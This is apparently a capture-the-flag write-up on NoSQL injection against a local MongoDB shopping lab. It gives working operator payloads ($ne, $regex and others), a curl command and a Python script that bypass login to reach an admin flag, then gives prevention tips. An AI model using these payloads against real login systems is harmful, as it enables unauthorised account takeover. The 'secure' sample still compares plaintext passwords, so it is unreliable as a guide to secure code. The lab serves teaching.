 # NoSQL Injection Writeup - ShoppingNow Lab

## Overview

This writeup demonstrates how to exploit a MongoDB NoSQL injection vulnerability in the ShoppingNow e-commerce application to bypass authentication and gain admin access.

## Vulnerability Analysis

The application uses a vulnerable MongoDB query structure in the login endpoint:

```python
# Vulnerable query - directly uses user input without sanitization
query = {"username": username, "password": password}
user = db.users.find_one(query)
```

The `find_one` method processes MongoDB operators directly, allowing injection attacks.

## Exploitation Steps

### Step 1: Identify the Injection Point

1. Navigate to the login page: `http://localhost:3206/login`
2. Open Burp Suite and intercept the login request
3. The application sends JSON data to `/login` endpoint

### Step 2: Basic NoSQL Injection with $ne Operator

The `$ne` (not equal) operator can be used to bypass authentication:

**Payload:**
```json
{
  "username": {"$ne": ""},
  "password": {"$ne": ""}
}
```

**Explanation:**
- `{"$ne": ""}` means "not equal to empty string"
- This will match any user where username is not empty AND password is not empty
- Since all users have non-empty usernames and passwords, this will return the first user in the database

**Result:** You will be logged in as the first user (likely `john_doe`)

### Step 3: Target Admin Account with $regex Operator

To specifically target the admin account, use the `$regex` operator:

**Payload:**
```json
{
  "username": {"$regex": "admin.*"},
  "password": {"$ne": ""}
}
```

**Explanation:**
- `{"$regex": "admin.*"}` matches any username that starts with "admin"
- This will specifically target the admin account
- Combined with `{"$ne": ""}` for password, it will bypass the password check

**Result:** You will be logged in as the admin user

### Step 4: Alternative Payloads

#### Using $exists Operator
```json
{
  "username": {"$exists": true},
  "password": {"$exists": true}
}
```

#### Using $in Operator
```json
{
  "username": {"$in": ["admin", "john_doe", "jane_smith"]},
  "password": {"$ne": ""}
}
```

#### Using $or Operator
```json
{
  "$or": [
    {"username": "admin"},
    {"username": "john_doe"}
  ],
  "password": {"$ne": ""}
}
```

## Manual Testing

### Using Burp Suite

1. **Intercept the request:**
   ```
   POST /login HTTP/1.1
   Host: localhost:3206
   Content-Type: application/json
   
   {"username":"test","password":"test"}
   ```

2. **Replace with injection payload:**
   ```json
   {
     "username": {"$regex": "admin.*"},
     "password": {"$ne": ""}
   }
   ```

3. **Forward the request**

### Using cURL

```bash
curl -X POST http://localhost:3206/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$regex": "admin.*"}, "password": {"$ne": ""}}'
```

### Using Python

```python
import requests
import json

url = "http://localhost:3206/login"
payload = {
    "username": {"$regex": "admin.*"},
    "password": {"$ne": ""}
}

response = requests.post(url, json=payload)
print(response.json())
```

## Automated Exploitation

Run the provided test script:

```bash
cd test
python test_lab.py
```

This will automatically:
1. Test basic injection with `$ne` operator
2. Test admin-specific injection with `$regex` operator
3. Access the admin dashboard
4. Extract the flag

## Flag Extraction

After successful exploitation, navigate to the admin dashboard at `http://localhost:3206/admin-dashboard` to find the flag:

```
FLAG{NoSQL_1nj3ct10n_4dm1n_byp4ss_2024}
```

## Prevention

To prevent this vulnerability:

1. **Input Validation:** Validate and sanitize all user inputs
2. **Parameterized Queries:** Use MongoDB's parameterized queries
3. **Input Encoding:** Encode special characters
4. **WAF Protection:** Implement Web Application Firewall
5. **Least Privilege:** Use minimal database permissions

## Example Secure Code

```python
# Secure approach - use parameterized queries
from pymongo import MongoClient
import re

def secure_login(username, password):
    # Validate input
    if not re.match(r'^[a-zA-Z0-9_]+$', username):
        return None
    
    # Use parameterized query
    user = db.users.find_one({
        "username": username,
        "password": password
    })
    
    return user
```

## Tools Used

- **Burp Suite Community Edition** - For intercepting and modifying requests
- **cURL** - For command-line testing
- **Python requests** - For automated exploitation
- **MongoDB Compass** - For database inspection (optional)

## Learning Objectives Achieved

✅ Identify NoSQL injection vectors in authentication endpoints  
✅ Craft payloads using MongoDB operators ($ne and $regex)  
✅ Bypass authentication to gain admin access  
✅ Understand the importance of input validation  
✅ Learn about MongoDB security best practices  

---

*This writeup is for educational purposes only. Always practice on authorized systems.* 